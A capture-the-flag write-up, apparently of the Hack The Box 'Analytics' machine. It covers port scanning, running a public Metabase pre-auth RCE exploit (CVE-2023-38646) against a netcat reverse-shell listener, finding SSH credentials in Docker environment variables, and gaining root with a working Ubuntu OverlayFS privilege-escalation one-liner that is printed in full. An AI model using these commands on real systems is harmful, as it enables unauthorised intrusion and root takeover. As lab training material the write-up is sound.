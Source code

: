 we start the machine with a simple port scan:
	
	rustscan -a 10.10.11.233
output:
	
	PORT   STATE SERVICE
	22/tcp open  ssh
	80/tcp open  http
for a better scan i run:
	
	nmap -sC -sV -p80,22 10.10.11.233
output:
	
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
	|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
	80/tcp open  http    nginx 1.18.0 (Ubuntu)
	|_http-server-header: nginx/1.18.0 (Ubuntu)
	|_http-title: Analytical
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
so the first thing i did is visit the webserver on port 80,
but got this:
	
![webserver domain](./pic/ip.png)
	
that means that we need to add it to /etc/hosts:
	
	echo '10.10.11.233	analytical.htb' >> /etc/hosts
after that we can visit the site:
	
![site](./pic/site.png)
	
there is not much clickable in the site apart from the login page. but we need to add another subdomain for this page first:
	
	echo '10.10.11.233	data.analytical.htb' >> /etc/hosts
now we can visit and see this:
	
![login page](./pic/login.png)
	
i immediatly searched for public exploits and PoC and found this:
	
https://github.com/alexandre-pecorilla/CVE-2023-38646
	
but we need to get the token first. I found it thanks to that post:
	
https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/
	
so we need to visit this endpoint:
	
	/api/session/properties
and check for tokens:
	
![token](./pic/token.png)
	
now that we have the token we can start a listener with:
	
	nc -lvnp 4444
and launch our exploit with:
	
	python3 CVE-2023-38646.py -u http://data.analytics.htb -t [REDACTED] -i 10.10.14.191 -p 4444
WE GOT THE CALLBACK!
now is time for enumeration:
we are inside a docker:
	
	ls -a /
output:
	
	.
	..
	.dockerenv
	[...]
so we need to perform a dockerescape... but how??
so i uploaded linpeas on the machine and found something strange:
	
![credenziali](./img/creds.png)
	
inside the enviroment variable of the machine there are some creds.
I tried them on ssh and worked!!
so i loged in and submitted the flag.
Time to privesc.
This part took me a while, in fact i dind't find anything on the box so i searched for recent exploits related to this machine,
by running:
	
	uname -a
output:
	
	Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux

i found this:
	
https://www.wiz.io/blog/ubuntu-overlayfs-vulnerability
	
and searched more about some exploits.
Finally i found that it maybe vulnerable to overlay exploit.
around there are a lot of PoC.
but i found this:
```bash
#!/bin/bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*; u/python3 -c 'import os;os.setuid(0);os.system(\"bash\")'"
```
from this reddit post:
	
https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/
	
so i run it and GOT ROOT!!
(also we can run this exploit):
	
https://medium.com/@omerbureyde/overlayfs-cve-2021-3493-9f675613fe1e
	
just compile it locally and then upload it to the machine, execute and u will be root!